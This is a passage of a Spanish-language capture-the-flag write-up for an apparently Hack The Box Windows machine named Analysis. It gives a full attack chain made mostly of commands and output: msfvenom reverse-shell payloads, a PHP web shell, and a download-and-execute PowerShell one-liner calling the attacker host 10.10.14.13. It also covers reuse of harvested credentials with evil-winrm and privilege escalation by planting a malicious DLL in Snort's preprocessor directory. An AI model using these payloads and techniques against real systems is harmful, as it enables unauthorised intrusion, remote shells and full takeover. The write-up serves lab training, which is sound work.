Y este en el cual un usuario se queja de que no puede ejecutar un archivo HTA, hay tenerlo en cuenta ya que podríamos fabricar un archivo HTA malicioso y que este usuario al ejecutarlo nos mande una consola interactiva.


Luego vemos que tenemos una subida de archivos que supuestamente, lo que subamos será analizado por el equipo de SOC. Si `Clara Williams` pertenece a este equipo, quizás ejecute un archivo HTA si lo subimos.


También vemos un panel que se enviará a un usuario, podríamos probar XSS aquí.


# Foothold
Vamos a probar a subir un archivo .hta

Creamos el payload con `msfvenom`
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f hta-psh > shell.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7407 bytes
```

Pero al enviar el archivo no recibimos la shell...

Alternativamente podemos crear un archivo `info.php` 

```php
<?php
	phpinfo();
?>
```

Y al subirlo, podemos ver que el archivo existe en la ruta `/dashboard/uploads/info.php`


No existen `disable_functions`


Creamos una web_shell...
```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

Y conseguimos ejecución remota de comandos.


Ahora para mandarnos la consola utilizamos el script `Invoke-PowerShellTcp.ps1` de `nishang`
Y a lo último del script añadimos esta línea.


Servimos este archivo con python por el puerto 8081.
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Ahora utilizamos este one-liner para descargar y ejecutar el script.
`http://internal.analysis.htb/dashboard/uploads/shell.php?cmd=echo%20IEX(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.13:8081/Invoke-PowerShellTcp.ps1%27)%20|%20powershell%20-noprofile%20-`

Y...
```shell
10.129.230.179 - - [12/Aug/2024 22:03:22] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```


```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.230.179] 62413
Windows PowerShell running as user DC-ANALYSIS$ on DC-ANALYSIS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\internal\dashboard\uploads>whoami
analysis\svc_web
```

Podemos ver que el sistema está en francés, así que cuidado con el nombre de cuentas de usuario.


De hecho podemos comprobar el nombre de la cuenta del administrador.


# User Pivoting | jdoe
Pasando el `winPEASx64.exe` encontramos unas credenciales en el autologon para el usuario `jdoe`


```shell
$ nxc smb analysis.htb -u 'jdoe' -p '7y4Z4^*y9Zzj'
SMB         10.129.230.179  445    DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.179  445    DC-ANALYSIS      [+] analysis.htb\jdoe:7y4Z4^*y9Zzj
```
Comprobamos que son válidas..

```shell
$ nxc winrm analysis.htb -u 'jdoe' -p '7y4Z4^*y9Zzj'
WINRM       10.129.230.179  5985   DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 (name:DC-ANALYSIS) (domain:analysis.htb)
WINRM       10.129.230.179  5985   DC-ANALYSIS      [+] analysis.htb\jdoe:7y4Z4^*y9Zzj (Pwn3d!)
```
Y está en el grupo `Remote Management Users` por lo cual con `evil-winrm`..

```shell
$ evil-winrm -i 10.129.230.179 -u jdoe -p '7y4Z4^*y9Zzj'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jdoe\Documents> whoami
analysis\jdoe
```

Y podemos leer la flag de usuario
```shell
*Evil-WinRM* PS C:\Users\jdoe\Desktop> type user.txt
6c60ab7f059622a5...
```

# Privilege Escalation
En la raíz del sistema vemos dos archivos interesantes.


Un log de Snort

y un mensaje encriptado
```powershell
*Evil-WinRM* PS C:\private> type encoded.txt
-----BEGIN ENCODED MESSAGE-----
Version: BCTextEncoder Utility v. 1.03.2.1

wy4ECQMCq0jPQTxt+3BgTzQTBPQFbt5KnV7LgBq6vcKWtbdKAf59hbw0KGN9lBIK
0kcBSYXfHU2s7xsWA3pCtjthI0lge3SyLOMw9T81CPqT3HOIKkh3SVcO9jdrxfwu
pHnjX+5HyybuBwIQwGprgyWdGnyv3mfcQQ==
=a7bc
-----END ENCODED MESSAGE-----
```

Analizando mas a fondo la configuración de snort `C:\Snort\etc\snort.conf` podemos ver esta línea.
```shell
$ cat snort.conf | grep dynamicpreprocessor
dynamicpreprocessor directory C:\Snort\lib\snort_dynamicpreprocessor
```

Mirando la [documentación](http://manual-snort-org.s3-website-us-east-1.amazonaws.com/node23.html)

> Tells snort to load the dynamic preprocessor shared library (if file is used) or all dynamic preprocessor shared libraries (if directory is used)

Por lo cual, cuando snort se ejecuta, carga todos los archivos .dll dentro de ese directorio.

También, en el directorio `C:\Snort\log` podemos ver que se están creando logs cada dos minutos, por lo que podemos deducir que hay una tarea que cada dos minutos se ejecuta por detrás.


Ahora solo hace falta comprobar si tenemos permisos para crear archivos en `C:\Snort\lib\snort_dynamicpreprocessor`

```powershell
*Evil-WinRM* PS C:\Snort\lib> icacls snort_dynamicpre*
snort_dynamicpreprocessor AUTORITE NT\SystŠme:(I)(OI)(CI)(F)
                          BUILTIN\Administrateurs:(I)(OI)(CI)(F)
                          BUILTIN\Utilisateurs:(I)(OI)(CI)(RX)
                          BUILTIN\Utilisateurs:(I)(CI)(AD)
                          BUILTIN\Utilisateurs:(I)(CI)(WD)
                          CREATEUR PROPRIETAIRE:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

Vemos que el grupo `Utilisateurs` puede escribir `WD -> Write Data` y `AP -> Append Data` añadir datos  y nosotros pertenecemos a este grupo, lo podemos comprobar con `whoami /groups`

Ahora que tenemos el vector de ataque claro..

Podemos probar a crear un archivo .dll malicioso.

```shell
$  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f dll -a x64 -o shell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: shell.dll
```

Y a subirlo en este directorio.
```powershell
*Evil-WinRM* PS C:\Snort\lib\snort_dynamicpreprocessor> upload shell.dll
                                        
Info: Uploading /home/pointedsec/Desktop/analysis/content/shell.dll to C:\Snort\lib\snort_dynamicpreprocessor\shell.dll
                                        
Data: 12288 bytes of 12288 bytes copied
                                        
Info: Upload successful!
```

Después de esperar un rato..

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.230.179] 54068
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
analysis\administrateur
```


Podemos ver la flag de `root`
```cmd
C:\Users\Administrateur\Desktop>type root.txt
type root.txt
749dd2480737c7...
```

¡Y ya estaría!

Happy Hacking! 🚀